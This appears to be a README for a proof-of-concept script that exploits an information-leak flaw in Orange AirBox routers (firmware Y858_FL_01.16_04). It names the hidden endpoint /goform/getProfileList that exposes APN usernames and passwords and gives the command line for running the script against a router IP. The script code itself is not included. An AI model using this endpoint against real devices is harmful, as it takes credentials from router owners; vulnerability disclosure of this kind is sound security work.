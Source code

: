 # AirBoxAPNLeak
Proof of Concept of AirBoxAPNLeak Vulnerability.                       

# How to use      

AirBoxAPNLeak.py         
`python AirBoxAPNLeak.py -ip 192.168.1.1`        
`APN NAME, NUMBER ,PASSWORD, USERNAME`

# How it works        

AirBox has hidden webpage `http://192.168.1.1/goform/getProfileList?rand=` which prints detailed APN info. It can be used to steal external ip addresses.
# Router information        

Router: AirBox
Vendor: Orange
Firmware version: Y858_FL_01.16_04
    
